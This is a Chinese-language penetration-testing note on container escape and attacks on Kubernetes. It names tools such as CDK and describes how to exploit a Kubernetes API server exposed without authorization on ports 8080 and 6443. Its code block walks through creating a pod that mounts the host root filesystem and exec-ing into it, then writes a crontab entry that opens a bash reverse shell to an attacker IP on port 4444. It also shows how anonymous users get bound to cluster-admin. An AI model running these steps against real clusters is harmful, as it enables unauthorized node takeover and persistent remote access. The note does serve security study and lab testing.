 
### 自动化
两种方法利用：直接把cdk项目传到服务器上，第二种是把服务器反弹到自己这，然后在本地测试利用
参考
https://github.com/cdk-team/CDK/
脚本检测
https://github.com/teamssix/container-escape-check
信息收集，逃逸，修复（cdk能做到）

# k8s
Kubernetes 又称 k8s，是 Google 在 2014 年开源的一个用来管理容器的平台
从安全角度上来说，master是管理平台，node是一台台主机，pod是主机里的一个个容器
**打进去-逃逸-横向移动**
详细攻击点参考：
https://mp.weixin.qq.com/s/yQoqozJgP8F-ad24xgzIPw
https://mp.weixin.qq.com/s/QEuQa0KVwykrMzOPdgEHMQ

![[640 1.webp]]
## 判断k8s
可以通过机器开启的端口识别
![[Pasted image 20240805172344.png]]
## 攻击组件
 ### 1.攻击api server
 开放端口为8080（新版本默认不开）或者6443（有tls认证），旧版本<1.16.0的两个都开，注意：有的系统只能装旧版本的k8s
 k8s的8080端口未授权访问
 cd /etc/kubernetes/manifests/  配置文件不安全
 --insecure-port=8080
 --insecure-bind-address=0.0.0.0   //这两条配置导致未授权访问
 ![[Pasted image 20240805183159.png]]
```
 可以直接用官方工具kubect1.exe -s ip:8080 get nodes
 kubect1.exe -s ip:8080 get pods
 kubect1.exe -s ip:8080 create -f test.yaml   //这条命令用于创建一个容器，且挂载在/mnt
 kubect1.exe -s ip:8080 --namespace=default exec -it test bash
 echo -e "* * * * root bash -i >& /dev/tcp/192.168.*.*/4444 0>&1\n" >> /mnt/etc/crontab
```
 ![[Pasted image 20240805184604.png]]
 hostPath:

    path: /: 将主机的根目录/挂载到容器的/mnt目录。
    至此我们拿到了一个node的权限

2、攻击6443端口:API Server 未授权访问一些集群由于鉴权配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443端口允许匿名用户以管理员权限向集群内部下发指令。kubectl create clusterrolebinding system:anonymous
--clusterrole=cluster-admin  --user=system:anonymous

6443未授权的话要用post请求发包创建pod，其他步骤和8080差不多， 用官方工具的时候要加 --insecure-skip-tls-verify参数跳过tls认证

